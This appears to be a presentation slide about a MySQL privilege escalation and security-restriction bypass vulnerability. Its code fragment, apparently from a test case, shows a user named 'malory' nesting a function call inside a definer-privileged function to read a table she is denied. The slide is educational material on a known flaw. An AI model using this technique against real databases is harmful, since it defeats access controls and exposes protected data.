

# Mysql数据库
MySQL权限提升及安全限制绕过漏洞
set @b:= (select count(*) from mysqltest2.t1);
return 0;
end|
delimiter ;|
# Again correct
--error ER_TABLEACCESS_DENIED_ERROR
select f_evil();
select @a, @b;
# Oops!!! it seems that f_evil() is executed in the context of
# f_suid() definer, so malory@locahost gets all info that he wants
select test.f_suid(f_evil());
select @a, @b;
connection default;
drop user malory@localhost;
drop database mysqltest1;
drop database mysqltest2;